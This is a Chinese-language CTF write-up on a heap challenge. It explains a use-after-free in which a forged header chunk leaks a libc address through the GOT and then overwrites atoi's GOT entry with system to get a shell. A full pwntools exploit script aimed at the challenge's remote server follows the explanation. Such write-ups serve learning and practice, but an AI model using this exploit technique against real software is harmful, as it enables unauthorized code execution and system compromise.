









第一次接触高版本的libc，但是这题并没有涉及到高版本的漏洞，而是逻辑漏洞。



主程序里面就是一个普普通通的菜单函数。



create函数会创建两个堆，一个是固定的头堆，用来储存数据堆的地址还有一系列基本信息。这里头堆开始的地方被放入了一个.bss段的地址。这个比较重要后面会有用。头堆下的数据堆就很正常，只不过是堆的地址被放在了头堆。

然后我们来看一下delete函数。



这里很明显能看到两个堆再被free之后指针并没有被删除，存在uaf漏洞。



edit函数检查了输入的size大小，堆没有溢出。并且头堆也没有修改的权限。

然后就是比较重要的两个函数，note跟active函数了。



这个函数很简单就是创造一个完全由我们控制的任意大小的堆，但是只能在创造时写入一次。



这个函数就比较迷惑人了。if后面那一串翻译过来就是调用头堆里面储存的.bss段里面储存的地址指向的函数，并且传入头堆所指向的数据堆。

但是这个.bss段储存的是什么呢。咱们去ida里面看一下。



里面很明显是调用了两个地址。分别是destruct跟process。





这两个函数可看出是去打印数据段的函数，并且active函数在调取这两个函数之前并没有对是否被free检查。delete函数num在堆被free之后也没有进行变化。process函数打印数据也没有进行检查是否是数据堆。

这样其实思路就已经有了。free掉一个index之后利用note去伪造头堆，然后调用active实现任意地址泄露去泄露got表。然后再利用edit函数直接无条件信任头堆里的数据堆地址实现got表改写。将atoi的got表改为system的got表。之后输入/bin/sh就可以获得shell。

```
from pwn import *


#p = process('./11')

p = remote('dark-portal.putcyberdays.pl', 8080)
#gdb.attach(p)
elf = ELF('./11')
libc = ELF('./libc.so.6')

def create(name, size, content):
    p.sendlineafter(b'Thy command? > ', b'1')
    p.sendlineafter(b'Portal name: ', name)
    p.sendlineafter(b'Content size: ', str(size).encode())
    p.sendafter(b'Content: ', content)

def delt(idx):
    p.sendlineafter(b'Thy command? > ', b'2')
    p.sendlineafter(b'Index: ', str(idx).encode())

def note(size, content):
    p.sendlineafter(b'Thy command? > ', b'4')
    p.sendlineafter(b'Note size: ', str(size).encode())
    p.sendafter(b'Note content: ', content)
def edit(idx, content):
    p.sendlineafter(b'Thy command? > ', b'3')
    p.sendlineafter(b'Index: ', str(idx).encode())
    p.sendafter(b'New content: ', content)
def a(idx):
    p.sendlineafter(b'Thy command? > ', b'5')
    p.sendlineafter(b'Index: ', str(idx).encode())
create(b'aaaa',0x40,b'aaaa')
delt(0)
atoi = elf.got['atoi']
fake = p32(0x804C03C)           
fake += b"LEAK"                  
fake += b"A"*20                
fake += p32(atoi)  
note(32, fake)
a(0)
p.recvuntil(b'Content: ')
atoi_got = u32(p.recv(4))
print(hex(atoi_got))
libc_base = atoi_got- libc.symbols['atoi']
system = libc_base + libc.symbols['system']
print(hex(system))
create(b'aaaa',0x40,b'aaaa')
delt(1)
fake1 = p32(0x804C03C)           
fake1 += b"LEAK"                  
fake1 += b"A"*20                
fake1 += p32(atoi)
note(32, fake)
edit(b'1',p32(system))
p.sendlineafter(b'Thy command? > ', b'/bin/sh\x00')
p.interactive()
```

